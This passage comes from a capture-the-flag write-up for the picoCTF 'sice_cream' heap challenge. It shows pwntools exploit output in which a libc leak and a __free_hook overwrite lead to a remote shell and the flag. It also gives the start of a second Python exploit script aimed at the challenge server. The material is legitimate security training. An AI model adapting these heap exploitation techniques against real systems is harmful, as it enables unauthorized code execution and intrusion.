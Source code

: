 ```sh
[*] '/home/Faith/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2019shell1.picoctf.com on port 6552: Done
[*] Leak: 0x7f451eb51b78
[*] main arena: 0x7f451eb51b20
[*] Libc base: 0x7f451e78d000
[*] system: 0x7f451e7d2390
[*] __free_hook: 0x7f451eb537a8
[*] fake_chunk_top: 0x7f451eb51b2a
[*] Switching to interactive mode
$ ls
flag.txt
ld-2.23.so
libc.so.6
sice_cream
xinet_startup.sh
$ cat flag.txt
flag{th3_r3al_questi0n_is_why_1s_libc_2.23_still_4_th1ng_148c832c}$
```

### **Other Exploit**

This one can actually be ran on a local machine since it doesn't take nearly as long ^_^
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './sice_cream'
HOST, PORT = '2019shell1.picoctf.com', 6552

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(name):
    p.sendlineafter('> ', name)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def reintroduce(name):
    p.sendlineafter('> ', '3')
```